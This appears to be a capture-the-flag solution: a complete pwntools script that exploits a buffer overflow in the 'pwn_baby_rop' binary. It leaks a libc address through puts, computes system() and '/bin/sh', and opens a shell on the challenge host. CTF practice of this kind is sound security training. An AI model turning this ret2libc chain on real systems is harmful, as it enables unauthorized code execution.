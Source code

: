 
## Solution

```python3
#!/usr/bin/python3
from pwn import *

#context.log_level='DEBUG'
binary = ELF('./pwn_baby_rop')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

if args.REMOTE:
    p = remote('34.159.3.158', 30098)
else:
    libc = binary.libc
    p = process(binary.path)
    #gdb.attach(p, '''
    #break _start
    #continue  
    #''')

prompt = 'Solve this challenge to prove your understanding to black magic.\n'
prompt_func = 0x0040145c

payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(prompt_func)

p.sendlineafter(prompt, payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
print('puts:   ' + hex(puts))

if args.REMOTE:
    # Could use https://libc.rip/ but the description tells us what OS is used.
    # docker run -v $PWD:/pwd -it ubuntu:20.04 cp /lib/x86_64-linux-gnu/libc-2.31.so /pwd/
    libc = ELF('libc-2.31.so')

libc.address = puts - libc.sym.puts
print('libc:   ' + hex(libc.address))
print('system: ' + hex(libc.symbols['system']))

payload  = 0x108 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])

p.sendlineafter(prompt, payload)
p.interactive() 
```
